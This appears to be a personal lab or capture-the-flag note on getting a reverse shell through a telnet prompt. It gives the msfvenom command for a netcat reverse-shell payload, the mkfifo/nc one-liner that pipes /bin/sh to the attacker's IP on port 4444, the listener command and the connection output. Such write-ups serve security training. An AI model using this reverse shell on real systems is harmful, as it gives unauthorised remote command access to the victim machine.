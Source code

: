 
![[Pasted image 20221116041356.png]]
Sets up a listener on the Attack Machine.

1. ping the attack machine from the victim from telnet prompt to check that we have a connection
```shell
RUN. ping 10.10.39.109 -c 1
```

2. Create the payload on the Attacker Machine that will be used to send the reverse shell request. 
	- Need to use the IP of the Attack machine to create the payload
```shell
msfvenom -p cmd/unix/reverse_netcat lhost=10.9.18.195 lport=4444 R

#this will output the command that needs to be used. 
#ignore all the output and just get the final line
mkfifo /tmp/hkuvtt; nc 10.9.18.195 4444 0</tmp/hkuvtt | /bin/sh >/tmp/hkuvtt 2>&1; rm /tmp/hkuvtt

```

3. The below command will tell the Victim machine to setup netcat  
```shell
mkfifo /tmp/hkuvtt; nc 10.9.18.195 4444 0</tmp/hkuvtt | /bin/sh >/tmp/hkuvtt 2>&1; rm /tmp/hkuvtt
```
4. On the Attack machine setup the listening port 
```shell
nc -lnvp 4444            
#output when the program is run
listening on [any] 4444 ...
```
5. On the victim machine run the telnet command
```shell
.RUN mkfifo /tmp/hkuvtt; nc 10.9.18.195 4444 0</tmp/hkuvtt | /bin/sh >/tmp/hkuvtt 2>&1; rm /tmp/hkuvtt

# The output is then shown on the Attack machine 
connect to [10.9.18.195] from (UNKNOWN) [10.10.224.183] 34172
```

5. you can then run commands on the the shell, but there is no fancy shell 
6. ![[Pasted image 20221126002912.png]]
7. 